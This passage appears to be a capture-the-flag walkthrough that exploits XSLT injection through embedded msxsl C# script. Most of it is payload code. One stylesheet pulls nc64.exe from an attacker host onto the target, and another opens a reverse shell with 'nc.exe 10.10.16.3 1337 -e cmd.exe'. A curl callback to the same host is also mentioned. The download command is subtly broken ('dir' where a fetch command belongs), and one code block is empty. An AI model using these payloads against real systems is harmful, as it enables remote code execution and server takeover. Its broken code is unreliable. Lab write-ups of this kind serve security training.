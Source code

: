 ```xml
```

- I've got this payload from [exploit db](https://www.exploit-db.com/exploits/49488)
- This payload uses c sharp script to execute commands
- I've changed few parts like `string cmd = "/c curl 10.10.16.3"` and `proc.StartInfo.FileName = "cmd.exe";`
- After pasting this click `view xslt` button again

![](https://i.imgur.com/rtq8YrZ.png)

- Here we got a hit in our server
- And you can see the output in the window behind that terminal, `.bash_history` and `.bashrc_orginal` are my local files
- Now let's try to get a reverse shell

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:msxsl="urn:schemas-microsoft-com:xslt"
	xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">
	<msxsl:script language="C#" implements-prefix="csharp_user">
		public string xml() {
		string cmd = @"/c dir http://10.10.16.3/nc64.exe -o C:\Users\Public\nc.exe"; 
		System.Diagnostics.Process proc = new System.Diagnostics.Process(); 
		proc.StartInfo.FileName = "cmd.exe"; 
		proc.StartInfo.Arguments = cmd; 
		proc.StartInfo.UseShellExecute = false; 
		proc.StartInfo.RedirectStandardOutput = true; 
		proc.Start(); 
		string output = proc.StandardOutput.ReadToEnd(); 
		return output; 
		}  
	</msxsl:script>
	<xsl:template match="/">
		<xsl:value-of select="csharp_user:xml()"/>
	</xsl:template>
</xsl:stylesheet>
```

- Start a webserver and use this payload to download the `nc64.exe` file in `C:\Users\Public\` directory

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:msxsl="urn:schemas-microsoft-com:xslt"
	xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">
	<msxsl:script language="C#" implements-prefix="csharp_user">
		public string xml() {
		string cmd = @"/c C:\Users\Public\nc.exe 10.10.16.3 1337 -e cmd.exe"; 
		System.Diagnostics.Process proc = new System.Diagnostics.Process(); 
		proc.StartInfo.FileName = "cmd.exe"; 
		proc.StartInfo.Arguments = cmd; 
		proc.StartInfo.UseShellExecute = false; 
		proc.StartInfo.RedirectStandardOutput = true; 
		proc.Start(); 
		string output = proc.StandardOutput.ReadToEnd(); 
		return output; 
		}  
	</msxsl:script>
	<xsl:template match="/">
		<xsl:value-of select="csharp_user:xml()"/>
	</xsl:template>
</xsl:stylesheet>
```